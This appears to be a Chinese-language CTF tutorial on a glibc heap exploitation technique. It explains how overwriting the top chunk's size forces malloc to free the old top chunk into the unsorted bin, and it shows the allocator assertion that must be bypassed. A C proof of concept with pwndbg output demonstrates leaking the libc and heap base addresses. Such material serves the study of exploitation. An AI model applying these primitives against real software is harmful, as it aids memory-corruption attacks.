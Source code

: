 除了`house of force`外，其实对于`top chunk`还有一些利用点。

---

当申请的`size`不大于`mmap`的阈值，但`top chunk`当前的大小又**不足以**分配，则会扩展`top chunk`，然后**从新`top chunk`里进行分配**。

这里的扩展`top chunk`，其实不一定会直接扩展原先的`top chunk`，**可能会先将原先的`top chunk`给`free`掉**，再在之后开辟一段新区域作为新的`top chunk`。
具体是，如果`brk`等于该不够大小的`top chunk`（被记作`old_top_chunk`）的`end`位置（`old_end`，等于`old_top + old_size`），**即`top chunk`的`size`并没有被修改**，完全是自然地分配堆块，导致了`top chunk`不够用，则会从`old_top`处开辟更大的一块空间作为新的`top chunk`，也就是将原先的`old_top_chunk`进行扩展了，此时没有`free`，且`top chunk`的起始位置也没有改变；

但是如果`brk`不等于`old_end`，则会先`free`掉`old_top_chunk`，**再从`brk`处**开辟一片空间作为`new_top_chunk`，此时的`top chunk`头部位置变为了原先的`brk`，而如今的`brk`也做了相应的扩展；

**并且`unsorted bin`或`tcache`中（一般修改的大小都至少会是`small bin`范围，但具体在哪得分情况看）会有被`free`的`old_top_chunk`。**
因此，**可以通过改小`top chunk`的`size`，再申请大堆块，做到对旧`top chunk`的`free`**，不过修改的`size`需要绕过一些检测。

相关源码如下：

```c
old_top = av->top;
old_size = chunksize (old_top);
old_end = (char *) (chunk_at_offset (old_top, old_size)); // old_end = old_top + old_size
assert ((old_top == initial_top (av) && old_size == 0) ||
        ((unsigned long) (old_size) >= MINSIZE &&
         prev_inuse (old_top) &&
         ((unsigned long) old_end & (pagesize - 1)) == 0));
```

需要绕过以上的断言，主要就是要求被修改的`top chunk`的`size`的`prev_inuse`位要为`1`并且`old_end`要内存页对齐，所以就要求被修改的`size`的**后三位和原先要保持一致**。



## 示例

假设有一个堆溢出（一个p64），那我们修改topchunk的size位，

然后申请一个0x1000的堆块触发free old topchunk => unsorted bin

这样再申请chunk就能拿到unsorted bin里面old topchuk的残留指针了。

(fd => libcbase，fd_nextsize => heapbase)



这样利用topchunk free的疏松检测以及不会清空指针的特性来泄露/利用。



```c
#include<stdio.h>
#include<stdlib.h>
#include<malloc.h>
#include<assert.h>

int main(){
	char *A = malloc(0x28);
	long long *p_A = (long long*)A;
	p_A[5] = 0x0fd1; // 0x20fd1 -> 0x0fd1
	/*
	pwndbg> heap
	Allocated chunk | PREV_INUSE
	Addr: 0x2155000
	Size: 0x31

	Top chunk | PREV_INUSE
	Addr: 0x2155030
	Size: 0xfd1

	*/
	char *trigger = malloc(0x1000);
	/*
	
	pwndbg> heap
	Allocated chunk | PREV_INUSE
	Addr: 0x2155000
	Size: 0x31

	Free chunk (unsortedbin) | PREV_INUSE
	Addr: 0x2155030
	Size: 0xfb1
	fd: 0x7fa935106b78
	bk: 0x7fa935106b78

	Allocated chunk
	Addr: 0x2155fe0
	Size: 0x10

	Allocated chunk | PREV_INUSE
	Addr: 0x2155ff0
	Size: 0x11

	Allocated chunk
	Addr: 0x2156000
	Size: 0x00

	unsortedbin
	all: 0x2155030 —▸ 0x7fa935106b78 (main_arena+88) ◂— 0x2155030

	
	*/
	char *p = malloc(0x100);
	/*
	pwndbg> x/8gx 0x2155030
	0x2155030:	0x0000000000000000	0x0000000000000111
	0x2155040:	0x00007fa935107188	0x00007fa935107188
	0x2155050:	0x0000000002155030	0x0000000002155030
	0x2155060:	0x0000000000000000	0x0000000000000000

	*/
	long long *p_p = (long long*)p;
	printf("Now we have a chunk with unsorted bin's fd and fd_nextsize\n");
	printf("fd: %p\nfd_nextsize: %p\n",p_p[0],p_p[2]);
	printf("And we have fd = %p is @ <main_arena+1640>\n",p_p[0]);
	printf("So we have libcbase = fd - 1640 - 0x10 - libc.sym['__malloc_hook']\n");
	printf("Also, fd_nextsize = %p is point to the previous topchunk itself\n",p_p[2]);
	printf("So we have heapbase = fd_nextsize - 0x30\n");
	return 0;
}
/*
root@937459dee7b2:/home/ctf/pwn# ./topchunk 
Now we have a chunk with unsorted bin's fd and fd_nextsize
fd: 0x7fe1c4e55188
fd_nextsize: 0x87e030
And we have fd = 0x7fe1c4e55188 is @ <main_arena+1640>
So we have libcbase = fd - 1640 - 0x10 - libc.sym['__malloc_hook']
Also, fd_nextsize = 0x87e030 is point to the previous topchunk itself
So we have heapbase = fd_nextsize - 0x30
*/
```

